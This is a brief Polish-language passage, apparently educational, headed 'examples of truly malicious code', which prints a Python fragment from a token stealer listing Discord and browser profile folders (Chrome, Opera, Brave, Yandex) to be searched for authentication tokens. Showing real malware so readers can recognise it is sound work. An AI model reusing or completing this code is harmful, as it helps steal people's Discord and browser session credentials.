

# Przykłady prawdziwie złośliwego kodu
Szukanie tokenów autentyfikacyjnych (te ścieżki zostaną potem przeszukane)
local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
paths = {
    'Discord': roaming + '\\Discord',
    'Discord Canary': roaming + '\\discordcanary',
    'Discord PTB': roaming + '\\discordptb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default',
    'Opera': roaming + '\\Opera Software\\Opera Stable',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default'
}